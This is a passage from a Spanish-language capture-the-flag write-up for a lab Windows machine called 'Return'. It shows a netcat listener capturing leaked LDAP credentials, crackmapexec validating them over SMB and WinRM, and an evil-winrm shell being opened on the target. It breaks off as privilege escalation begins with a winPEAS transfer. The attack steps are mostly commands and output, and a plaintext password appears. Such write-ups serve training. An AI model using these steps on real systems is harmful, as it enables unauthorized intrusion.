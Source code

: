Esto es lo que obtenemos, en mi opinión esto puede ser un `usuario` y `contraseña` que se han leakeado

```
# nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.241] 64447
0*`%return\svc-printer�
                       1edFg43012!!
```

Vamos a `validar` las `credenciales` por los diferentes servicios que tiene la máquina víctima usando `crackmapexec`

```
# crackmapexec smb 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'  
SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```

```
# crackmapexec winrm 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'   
SMB         10.129.95.241   5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.129.95.241   5985   PRINTER          [*] http://10.129.95.241:5985/wsman
WINRM       10.129.95.241   5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

## Instrusión

Al parecer nos podemos `conectar` a la `máquina víctima` a través de `winrm`, por lo tanto vamos a hacerlo

```
# evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.129.95.241 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

## Privilege Escalation

Vamos a transferirnos `winpeas.exe` a la máquina víctima, lo primero es descargarnos el binario en [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS), desde el mismo directorio donde está el archivo nos creamos un servidor con python por el puerto 80
